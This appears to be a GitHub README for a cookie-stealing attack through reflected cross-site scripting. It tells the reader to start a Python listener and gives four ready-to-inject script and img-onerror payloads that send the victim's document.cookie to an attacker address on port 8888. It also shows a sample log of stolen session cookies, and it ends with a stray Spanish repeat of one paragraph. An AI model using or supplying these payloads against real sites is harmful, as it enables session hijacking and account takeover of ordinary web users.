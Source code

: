 # Cookie-Steler-XSS
### Assumptions:
1. You've already identified website (and field or parameter) that is vulnerable to Reflected XSS.
1. You're able to run shell commands on a Linux system that is reachable by the vulnerable web app. You'll probably need to run the Python script (mentioned below) as root or prepended with `sudo`.

## Run the Cookie Stealer Python Script

You'll need a place to capture the stolen cookies. Run it with Python 2.6 or higher. It is just an HTTP server which logs each inbound HTTP connection and all the cookies contained in that connection.

```shell
python robar-cookies.py
```

The resulting output, at minimum, will be this:

```shell
Started http server

```

You're not there yet. Now you have to launch the actual attack. Below are a couple of choices.

## Inject the XSS Attack Code
Below are four versions of the same attack.

### 1. `alert()` Before Stealing the Cookie
Run this version of the attack code if you want to see the cookie in a JS `alert()` as confirmation that the injection is successfully exploiting the vulnerability on the target site. Note that the cookie will not upload to your Python listener until the victim closes the JS `alert()` dialog.

```javascript
<script>
alert(document.cookie);
var i=new Image;
i.src="http://192.168.0.18:8888/?"+document.cookie;
</script>
```

### 2. Silent One-Liner
This one is the same but no `alert()` and all on one line.

```js
<script>var i=new Image;i.src="http://192.168.0.18:8888/?"+document.cookie;</script>
```

### 3. `<img>` Tag Instead of `<script>` Tags
Don't use this one! It works but calls `onerror()` in a loop, filling up your stolen cookie log:
```html
<img src=x onerror=this.src='http://192.168.0.18:8888/?'+document.cookie;>
```

### 4. `<img>` Tag and Without the Infinite Loop
This one works and will only steal the cookie once. I adapted it from a posting on the old [kirupa.com][4] forum.
```html
<img src=x onerror="this.src='http://192.168.0.18:8888/?'+document.cookie; this.removeAttribute('onerror');">
```

## Harvest the Stolen Cookies
If you successfully get inject your cookie-stealing XSS script into a vulnerable website, and the script is subsequently executed in a victim's browser, you'll see a cookie appear in the STDOUT of the shell running the Python script:

```shell
2017-02-09 10:05 PM - 192.168.0.254	Mozilla/5.0 (Macintosh; Intel Mac OS X 10.10; rv:51.0) Gecko/20100101 Firefox/51.0
------------------------------------------------------------------------------------------------------------------
Cookie Name			Value
------------------------------------------------------------------------------------------------------------------
acopendivids			['swingset,jotto,phpbb2,redmine']
security			['low']
acgroupswithpersist			['nada']
PHPSESSID			['93l9ahf1120bkp79t5ehbkc0m4']
```

Cosecha las galletas robadas

Si logra inyectar con éxito su script XSS para robar cookies en un sitio web vulnerable y el script se ejecuta posteriormente en el navegador de la víctima, verá aparecer una cookie en STDOUT del shell que ejecuta el script Python: 
